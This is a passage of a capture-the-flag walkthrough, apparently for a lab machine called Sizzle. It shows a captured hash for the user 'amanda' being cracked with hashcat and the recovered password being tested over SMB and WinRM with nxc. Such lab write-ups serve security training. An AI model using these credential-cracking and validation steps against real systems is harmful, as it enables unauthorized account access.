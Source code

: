<figure><img src="../../../.gitbook/assets/sizzle_amanda_hash.png" alt=""><figcaption><p>Figure 13: Amanda opens the file and we get her hash back!</p></figcaption></figure>

We can now copy the hash to a file and use `hashcat` to crack it :unlock: (Figure 14).

```bash
# cracking the hash
hashcat amanda_hash /usr/share/wordlists/rockyou.txt
# showing the result
hashcat amanda_hash --show
```

<figure><img src="../../../.gitbook/assets/sizzle_hash_pass.png" alt=""><figcaption><p>Figure 14: Cracking the hash with Hashcat.</p></figcaption></figure>

Let's validate Amanda's credentials and check if she has WinRM access (Figure 15).

```bash
# writing the password to a file
echo "Ashare1972" > amanda_pass
# validating credentials
nxc smb 10.10.10.103 -u amanda -p amanda_pass
# checking for WinRM access
nxc winrm 10.10.10.103 -u amanda -p amanda_pass
```
